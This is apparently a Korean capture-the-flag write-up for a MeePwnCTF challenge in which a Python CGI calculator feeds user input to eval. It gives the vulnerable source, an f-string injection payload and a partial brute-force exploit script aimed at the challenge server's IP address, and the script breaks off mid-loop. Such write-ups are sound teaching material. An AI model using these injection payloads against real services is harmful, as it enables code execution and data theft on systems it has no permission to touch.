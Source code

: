 ```python
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
```

`FLAG` 변수 안에 우리가 얻어야 할 문자열이 들어가 있는 것을 알 수있다.

그리고 우리가 입력한 value1, op, value2는 각각 `value1+op+value2` 의 형태를 이루어 eval을 통해 계산이 된다.

이를 통해 얻은 결과가 숫자, 또는 참, 거짓일 때만 화면에 결과를 출력해준다.

처음에는`value1 = a&op = +'&value2 = >FLAG#` 를 넣어 대소 비교의 참, 거짓의 유무로 FLAG를 추출하였으나, 플래그에 필터링된 문자열이 섞여있어 더이상 진행이 불가능하였다.

**MeePwnCTF{python3.66666666666666_\(**

하지만 플래그의 앞 부분을 보았을 때, python 3.6을 사용하는 것을 알 수 있었다.

python3.6의 특징은 format string을 쓸 수 있는 것이다.

> \>>> simple = 'shpik'
>
> \>>> print(f'{simple}')
>
> shpik

이를 이용하여 FLAG를 뽑았으며m 최종쿼리와 python 소스는 다음과 같다.

```python
import requests

url = 'http://178.128.96.203/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
```
